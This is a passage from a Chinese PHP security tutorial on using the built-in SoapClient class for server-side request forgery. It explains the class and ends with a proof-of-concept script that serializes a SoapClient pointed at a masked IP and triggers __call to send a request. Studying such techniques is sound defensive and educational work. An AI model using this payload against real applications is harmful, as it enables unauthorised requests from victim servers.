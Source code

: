 Exception 类与 Error 的使用和结果完全一样，只不过 `Exception` 类适用于PHP 5和7，而 `Error` 只适用于 PHP 7。

## 使用 SoapClient 类进行 SSRF

### SoapClient 类

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

类摘要如下：

```
SoapClient {
    /* 方法 */
    public __construct ( string|null $wsdl , array $options = [] )
    public __call ( string $name , array $args ) : mixed
    public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
    public __getCookies ( ) : array
    public __getFunctions ( ) : array|null
    public __getLastRequest ( ) : string|null
    public __getLastRequestHeaders ( ) : string|null
    public __getLastResponse ( ) : string|null
    public __getLastResponseHeaders ( ) : string|null
    public __getTypes ( ) : array|null
    public __setCookie ( string $name , string|null $value = null ) : void
    public __setLocation ( string $location = "" ) : string|null
    public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
    public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
}
```

可以看到，该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。

该类的构造函数如下：

```
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

-   第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
-   第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。

### 使用 SoapClient 类进行 SSRF

知道上述两个参数的含义后，就很容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数的location选项设置为target\_url。

```
<?php
$a = new SoapClient(null,array('location'=>'http://47.xxx.xxx.72:2333/aaa', 'uri'=>'http://47.xxx.xxx.72:2333'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
